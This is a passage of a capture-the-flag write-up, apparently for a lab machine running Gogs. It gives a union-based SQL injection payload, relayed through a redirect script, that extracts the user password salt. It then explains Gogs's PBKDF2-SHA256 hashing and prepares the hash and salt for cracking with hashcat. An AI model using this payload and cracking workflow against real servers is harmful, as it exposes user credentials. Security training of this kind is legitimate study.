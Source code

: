 ![](assets/img/health-password-in-hex.png)

Let's grab the salt:

```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(select/**/salt/**/from/**/user),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--"
```

![](salt.png)

I have no idea what algorithm is used to hash the password. The good news is that this is an open source application so we can dig through the code if no one else has.
Lucky for us again someone else dug through the application to find where the password is hashed.
https://blog.stigok.com/2017/03/06/lost-password-to-gogs-git-server-docker-instance.html
This blog post points out that the password is hashed as follows:
```go
newPasswd := pbkdf2.Key([]byte(u.Passwd), []byte(u.Salt), 10000, 50, sha256.New)
```
Since I have no idea what this even means, I had to dig into the module and function.
https://pkg.go.dev/golang.org/x/crypto/pbkdf2#pkg-functions
The key function is defined as below:
```go
func Key(password, salt []byte, iter, keyLen int, h func() hash.Hash) []byte
```
So the function takes a password, byte array for salt, the iterations the algorithm will go through, they length of the output key in bytes, and the PRN (pseudo random number) function. 

So this means that Gogs uses PBKDF2 with SHA256 PRN with 10000 iterations and a length of 50 bytes. At least, that is how I understand it. 
Since the output of the function is a byte array, the hash is probably stored in hex. 

https://hashcat.net/wiki/doku.php?id=example_hashes
Digging around to figure out how to crack this I came around to the hashcat algorithm PBKDF2-HMAC-SHA256  (10900)
with the example hash: `sha256:1000:MTc3MTA0MTQwMjQxNzY=:PYjCU215Mi57AYPKva9j7mvF4Rc5bCnt`
So it looks like the salt is in base64 and the password may be as well because that is definitely not hex.

The question is how do we get hex back to bytes then into base64?
This where I get to play with a tool I do not use much at all `xxd`.
Using `xxd -r`  we can convert the hex into binary then we need to output it back out int a hex that we convert to base64

```shell
echo '1c84...b55655d' | xxd -r -ps | base64
HIT2z...V0= > pass
```

base64 the salt
```shell
echo $salt | base64 > salt
```
